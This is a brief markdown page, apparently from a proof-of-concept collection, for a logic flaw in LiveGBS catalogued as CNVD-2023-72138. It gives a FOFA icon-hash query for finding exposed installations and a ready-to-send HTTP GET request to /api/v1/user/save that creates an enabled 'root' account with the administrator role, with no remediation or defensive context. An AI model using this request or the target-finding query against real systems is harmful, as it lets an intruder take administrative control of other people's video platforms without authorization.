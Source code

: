 ## LiveGBS存在逻辑缺陷漏洞(CNVD-2023-72138)

## fofa
```
icon_hash="-206100324"
```


## poc
```
GET /api/v1/user/save?ID=&Username=root&Role=%E7%AE%A1%E7%90%86%E5%91%98&Enable=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Connection: close

```

![image](https://github.com/wy876/POC/assets/139549762/c77b5b4e-f3c0-4653-82a6-ebd9756f431e)
